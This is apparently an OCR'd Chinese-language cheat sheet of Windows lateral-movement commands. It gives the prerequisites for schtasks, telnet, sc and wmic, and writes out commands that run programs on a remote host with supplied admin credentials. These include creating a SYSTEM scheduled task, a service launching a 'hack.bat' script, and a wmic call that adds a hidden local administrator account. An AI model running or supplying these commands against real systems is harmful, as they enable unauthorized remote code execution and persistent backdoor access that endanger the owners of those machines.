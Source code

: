 schtasks  

### 前提

开启 windows Event log 服务，开启 Task Scheduler 服务

其余条件同 ipc

```
schtasks /create /tn firstTask /tr "c:\windows\system32\cmd.exe /c calc" /sc once /st 00:00 /S 170.170.64.19 /RU System /u admin /p passwd
schtasks /run /tn firstTask /S 170.170.64.19 /u admin /p passwd
schtasks /F /delete /tn firstTask /S 170.170.64.19 /u admin /p passwd
```

telnet  

### 前提

开启 telnet 服务

### 命令执行

```
telnet 目标ip
之后可执行命令
```

sc

```
windows2003
windows XP
```

命令执行

```
sc \\170.170.64.19 create testSC binPath= "cmd.exe /c start c:\windows\hack.bat"
sc \\170.170.64.19 start testSC
sc \\170.170.64.19 delete testSC
```

wmic  

### 前提

开启 wmi 服务，135 端口

### 命令执行

```
wmic /node:170.170.64.19 /user:admin /password:passwd process call create "cmd.exe /c calc.exe"

wmic /node:170.170.64.19 /user:admin /password:passwd process call create "cmd.exe /c net user test 123456 /add && net localgroup administrators test /add"
```
